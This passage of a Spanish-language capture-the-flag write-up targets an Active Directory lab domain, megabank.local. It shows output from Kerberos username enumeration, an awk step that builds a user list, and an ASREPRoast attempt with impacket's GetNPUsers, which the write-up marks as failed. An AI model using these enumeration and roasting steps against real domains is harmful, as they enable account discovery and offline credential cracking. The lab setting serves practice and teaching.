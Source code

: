 ```console
2024/09/07 21:34:38 >  [+] VALID USERNAME:       naoki@megabank.local                                                                                                                                              
2024/09/07 21:34:38 >  Done! Tested 38 usernames (21 valid) in 0.168 seconds   
```

Podemos meter todos esos usuarios en un fichero `users.txt` y con `awk` quedarnos solo con el nombre de usuario.
```console
$ cat u.txt  | awk '{print $7}' | awk -F@ '{print $1}' > users.txt && cat users.txt
sunita
abigail
marcus
fred
sally
felicia
angela
gustavo
ulf
stevie
claire
paulo
annette
steve
annika
per
claude
melanie
zach
simon
naoki
```
## ASREPRoast (failed)
Y ahora tenemos una lista válidas de usuario, estoy es muy útil ya que ahora podemos intentar hacer un ataque de tipo ASREPRoast para detectar si algún usuario tiene el atributo `DONT_REQUIRE_PREAUTH` y capturar un TGT para poder crackearlo de forma offline.

Ahora con `GetNPUsers` de la suite de `impacket` podemos comprobar esto.

```console
$ impacket-GetNPUsers -no-pass -usersfile users.txt megabank.local/                           21:39:27 [1/9961]
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation                                                               

[-] User sunita doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User abigail doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User marcus doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User fred doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User sally doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User felicia doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User angela doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User gustavo doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User ulf doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User stevie doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User claire doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User paulo doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User annette doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User steve doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User annika doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User per doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User claude doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User melanie doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User zach doesn't have UF_DONT_REQUIRE_PREAUTH set
```